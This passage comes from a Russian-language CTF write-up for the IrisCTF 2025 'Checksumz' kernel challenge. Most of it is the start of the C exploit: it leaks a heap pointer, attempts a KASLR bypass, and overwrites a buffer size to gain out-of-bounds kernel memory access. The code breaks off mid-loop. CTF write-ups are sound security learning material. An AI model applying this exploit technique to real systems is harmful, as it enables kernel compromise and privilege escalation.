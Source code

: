 Запускаем на сервере и получаем флаг:

![](/assets/IrisCTF-Checksumz/Pasted%20image%2020250110024519.png)

Полный эксплоит и заголовочный файл представлены ниже, а также доступны в [нашем репозитории](https://github.com/splodev/writeups/tree/main/CTFs/IrisCTF_2025/Checksumz).

main.c
```c
#include "api.h"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <string.h>
#include <fcntl.h>

uint64_t relative_addr = 0;

void hexdump(uint8_t* buffer, size_t size) {
    for (int i = 0; i < size; i++) {
        if (i % 16 == 0 && i != 0) {
            puts("");
        }
        printf("%02x ", buffer[i]);
    }
};

uint64_t try_break_kaslr(int fd) {
    if (fd == INVALID_FD) { 
        return -1;
    }

    uint8_t* buffer = (uint8_t*) calloc(BUF_SIZE, sizeof(uint8_t));
    read(fd, buffer, BUF_SIZE); // skip
    read(fd, buffer, BUF_SIZE - 1); // skip

    memset(buffer, 0x0, BUF_SIZE);
    read(fd, buffer, 256); // leak

    // get buffer->name pointer
    uint64_t leak_name = *(uint64_t*)(buffer + 17);
    printf("{+} heap leak name: 0x%llx\n", leak_name);

    // change size to 0xffffffffffffffff
    lseek(fd, (off_t)511, SEEK_SET);
    uint8_t write_buffer[16] = {0, 0xff,0xff,0xff,0xff,0xff,0xff,0xff,0xff, 0, 0, 0, 0, 0, 0, 0};
    write(fd, write_buffer, 16);
    
    uint64_t content_addr = 0x0;

    for (int i = 0; i < 0x10000; i += 8) {
        char tmp_buf[8] = {0};
     
        lseek(fd, (off_t)512 + i, SEEK_SET);
```